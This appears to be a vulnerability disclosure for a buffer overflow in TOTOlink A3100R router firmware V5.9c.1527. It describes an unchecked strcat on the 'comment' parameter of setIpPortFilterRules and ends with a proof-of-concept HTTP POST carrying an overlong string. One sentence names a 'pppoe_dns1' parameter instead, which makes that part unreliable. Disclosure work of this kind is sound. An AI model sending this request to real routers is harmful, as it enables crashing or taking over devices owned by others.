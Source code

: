 # TARGET
TOTOlink A3100R
V5.9c.1527
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3100R router device contains a buffer overflow vulnerability in its firmware version V5.9c.1527. The vulnerability arises from the improper input validation of the `comment` parameter in the `setIpPortFilterRules` interface of `/lib/cste_modules/firewall.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root//lib/cste_modules/firewall.so`
![]([https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/A3100R-1/IpFilter%20comment.png))

By analyzing the `setIpPortFilterRules` function in `/lib/cste_modules/firewall.so` using IDA, we find that the entry address of the function is `0x00005244`. It is evident that the `v11` variable is passed to `v17` via `strcat` without any filtering or length checks. Through further analysis, it is clear that the controllable `comment` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`comment`" data, and `strcat` copies the string pointed to by `v11` to `v17` without verifying whether `v17` has enough space to store the copied string. If the string pointed to by `v11` exceeds the size of the `v17` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![][(https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/A3100R-1/IpFilter%20comment%20Result.png))
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/firewall/ipport_filtering.asp?timestamp=1743751453020
Accept-Language: zh-Hans-CN,zh-Hans;q=0.8,en-US;q=0.6,en;q=0.4,ja;q=0.2
Accept-Encoding: gzip, deflate, br
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 192.168.0.1
Content-Length: 428
Connection: keep-alive
Cache-Control: no-cache
Cookie: SESSION_ID=2:1743751396:2

{"topicurl":"setting/setIpPortFilterRules","ipAddress":"192.168.0.3","dFromPort":"11","dToPort":"111","protocol":"ALL","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","addEffect":"0"}
```
